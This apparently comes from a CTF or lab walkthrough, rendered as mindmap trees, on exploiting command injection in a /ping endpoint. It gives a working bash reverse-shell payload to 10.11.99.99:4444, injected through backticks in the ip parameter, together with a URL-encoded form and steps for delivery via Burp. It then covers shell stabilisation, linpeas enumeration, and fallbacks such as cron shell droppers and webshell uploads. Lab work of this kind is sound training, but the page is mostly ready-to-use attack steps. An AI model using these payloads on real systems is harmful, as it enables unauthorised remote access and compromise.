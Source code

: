     ```
    
    ```jsx
    Payload Delivery
    ├── Via Browser or curl (manual test)
    │   └── <http://10.10.43.71:8081/ping?ip=`bash> -c 'bash -i >& /dev/tcp/10.11.99.99/4444 0>&1'`
    │
    ├── Via Burp Suite
    │   ├── Intercept /ping request
    │   ├── Replace ip param with encoded payload
    │   └── Send to Repeater or Forward to server
    │
    ├── URL Encoding Tips
    │   ├── `bash -i >& ...` → special chars need encoding
    │   ├── Use CyberChef to encode:
    │   │   └── Encode backticks: `%60`
    │   │   └── Encode spaces: `%20`
    │   └── Example:
    │       `GET /ping?ip=%60bash+-c+'bash+-i+>%26+/dev/tcp/10.11.99.99/4444+0>%261'%60`
    
    ```
    
    ```jsx
    Shell Stabilization
    ├── If shell is basic or broken:
    │   ├── python3 -c 'import pty; pty.spawn("/bin/bash")'
    │   ├── CTRL+Z
    │   ├── stty raw -echo; fg
    │   └── export TERM=xterm
    │
    ├── Quality of life improvements:
    │   ├── alias, prompt fix, clear
    │   ├── check user + hostname
    │   └── run linpeas.sh for auto-enum
    
    ```
    
    ```jsx
    If Reverse Shell Fails
    ├── Confirm network routing:
    │   ├── ping your IP from victim (if allowed)
    │   ├── nc -zv <attacker-ip> 4444 (from inside)
    │
    ├── Try different methods:
    │   ├── curl + hosted payloads
    │   ├── echo > /tmp + cron shell dropper
    │
    ├── Use webshell instead:
    │   └── Create PHP/JS webshell on exposed file upload
    
    ```
    

# Mindmap
